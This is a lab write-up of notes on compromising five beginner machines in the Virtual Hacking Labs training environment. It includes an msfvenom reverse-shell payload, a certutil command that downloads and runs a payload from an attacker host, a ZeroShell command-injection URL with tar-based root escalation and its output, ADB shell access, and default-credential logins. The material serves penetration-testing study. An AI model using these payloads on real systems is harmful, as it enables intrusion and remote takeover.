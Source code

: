 ## Virtual Hacking Labs

### Beginner
#### 10.11.1.36 (Steven)
```bash
Foothold -> Found Wing FTP Server and Login with admin:admin  
Exploit -> RCE

msfvenom -p windows/shell_reverse_tcp LHOST=172.16.1.1 LPORT=4444 -f exe > shell-x86.exe

os.execute('cmd.exe /c certutil.exe -urlcache -split -f http://172.16.1.1:8080/shell.exe C:\Windows\Temp\shell.exe & C:\Windows\Temp\shell.exe')

Escalate -> Don't need
```
#### 10.11.1.48 (Android)
```bash
Foothold -> Found Port 5555 (adb)
Exploit -> Connect with ADB Tool

./adb connect 10.11.1.48:5555
./adb shell

Escalate -> Just su to root
```
#### 10.11.1.60 (Zero)
```bash
Foothold -> Found ZeroShell

Exploit -> RCE
https://10.11.1.60/cgi-bin/kerbynet?Section=NoAuthREQ&Action=x509view&User=Admin&x509type='%0Auname -a%0A'

Linux zeroshell 4.14.29-ZS #4 SMP Mon Mar 26 23:04:36 CEST 2018 i686 GenuineIntel unknown GNU/Linux Linux zeroshell 4.14.29-ZS #4 SMP Mon Mar 26 23:04:36 CEST 2018 i686 GenuineIntel unknown GNU/Linux

Escalate -> sudo by tar
https://10.11.1.60/cgi-bin/kerbynet?Section=NoAuthREQ&Action=x509view&User=Admin&x509type='%0A/etc/sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=id%0A'

uid=0(root) gid=0(root) groups=0(root) uid=0(root) gid=0(root) groups=0(root) 
```
Reference  
 -> https://www.exploit-db.com/exploits/49096  
 -> https://www.tarlogic.com/advisories/zeroshell-rce-root.txt

#### 10.11.1.74 (Mantis)
```bash
Foothold -> Read robots.txt and Found http://10.11.1.74/mantisbt-2.3.0
Exploit1 -> Try to Use RCE (Unauthenticated) it's work but it's a rabbit hole.
Exploit2 -> Use Reset Administrator Password to Exploit
User -> Investigate The Page and Found SSH credential and Use it.
Root -> sudo -l and Found "(ALL : ALL) ALL" Then sudo su
```

#### 10.11.1.83 (John)
```bash
Foothold -> Found Target is Windows XP and Open 445
Exploit -> MS08-067 and MS17-010
```

